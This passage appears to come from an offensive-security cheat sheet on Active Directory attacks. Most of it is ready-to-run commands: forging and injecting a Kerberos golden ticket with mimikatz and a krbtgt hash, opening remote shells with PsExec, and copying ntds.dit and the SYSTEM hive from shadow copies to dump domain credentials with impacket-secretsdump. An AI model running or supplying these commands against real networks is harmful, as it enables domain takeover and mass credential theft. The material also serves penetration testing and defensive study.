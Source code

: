 - Hash of krbtgt

##### Forge and Inject Golden Ticket

```cmd
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
mimikatz # misc::cmd
```

##### Execution

Use the `hostname` and not the `IP address` because otherwise it would authenticate via `NTLM` and the access would still be blocked.

```cmd
PS C:\> .\PsExec.exe \\<RHOST> cmd
```

#### Volume Shadow Service (VSS) aka Shadow Copies

> https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/

##### Dumping Credentials

###### Create and collect necessary Files

```cmd
C:\> vshadow.exe -nw -p  C:
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\ntds.dit.bak
C:\> reg.exe save hklm\system C:\system.bak
```

###### Execution

```console
$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

##### Accessing Volume Shadow Snapshots (VSS) via Previous Versions

> https://x.com/malmoeb/status/1943310097905533302?t=ra4ykhNmtusNgXxIpKBQDg

```cmd
PS C:\> \\localhost\C$\@ GMT-2025.06.21-10.53.43\Windows\NTDS\ntds.dit
```

### Active Directory Tombstones

#### List all deleted Objects

```cmd
PS C:\> Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
```
